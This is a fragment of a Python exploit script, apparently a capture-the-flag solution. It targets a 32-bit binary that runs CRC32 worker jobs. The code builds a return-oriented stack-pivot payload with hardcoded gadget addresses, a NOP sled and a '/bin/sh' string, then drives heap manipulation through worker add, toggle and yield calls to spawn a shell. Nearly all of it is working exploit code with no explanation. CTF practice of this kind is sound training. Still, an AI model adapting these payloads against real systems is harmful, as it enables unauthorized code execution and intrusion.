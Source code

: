 ```python
#   0x8048590 scanf addr
#   0x8048618 leave/ret addr
#   "%x" addr
#   +0x28 some position in this chunk
# +0x24:
#   0 ;ebp
# +0x28
#   0 ;to be modified
#   0
#   +0x34 "/bin/sh" addr
# +0x34:
#   "/bin/sh"
# +0x3c:
#   "%x\x00\x00"
# +0x40:
def make_job2_payload(chunk_addr):
	payload_size = 0x40
	length_begin = CHUNK_SIZE - payload_size
	leave_ret = p32(0x8048618)
	payload_start = chunk_addr + length_begin
	ret = p32(payload_start + 0x10)
	ret += p32(0x8048520)
	ret += leave_ret
	ret += p32(0x804A5E8)
	ret += p32(payload_start + 0x24)
	ret += p32(0x8048590)
	ret += leave_ret
	ret += p32(payload_start + 0x3c)
	ret += p32(payload_start + 0x28)
	ret += p32(0)
	ret += p32(0)
	ret += p32(0)
	ret += p32(payload_start + 0x34)
	ret += "/bin/sh\x00"
	ret += "%x\x00\x00"

	ret = "\x90" * length_begin + ret
	assert (len(ret) == CHUNK_SIZE)
	return ret,length_begin

add_worker()
add_worker()


job2_payload, displacement = make_job2_payload(JOB2_CONTENT_ADDR + heap_base_addr)
job1_payload = make_job1_payload(JOB1_CONTENT_ADDR + heap_base_addr, displacement)
request_crc32_comp(job1_payload)
request_crc32_comp(job2_payload)

yield_worker()

toggle_worker(WORKER2_ADDR + heap_base_addr)

yield_worker()
yield_worker()

gather_results()

request_crc32_comp("C" * CHUNK_SIZE)

toggle_worker(WORKER2_ADDR + heap_base_addr)

yield_worker()
```